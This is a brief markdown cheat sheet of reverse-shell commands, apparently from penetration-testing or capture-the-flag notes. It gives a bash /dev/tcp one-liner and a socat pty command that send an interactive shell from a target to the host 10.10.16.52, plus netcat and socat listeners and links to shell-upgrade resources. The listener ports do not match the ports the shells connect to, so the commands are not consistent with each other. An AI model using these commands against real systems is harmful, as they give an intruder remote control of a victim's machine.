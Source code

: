 # Reverse-Shells

## Bash

### target

    bash -i >& /dev/tcp/10.10.16.52/81 0>&1

### attack machine

    nc -lvp 4444


## better shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

socat binary see https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64

### target
    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.52:4444

### attack machine
    socat file:`tty`,raw,echo=0 tcp-listen:4445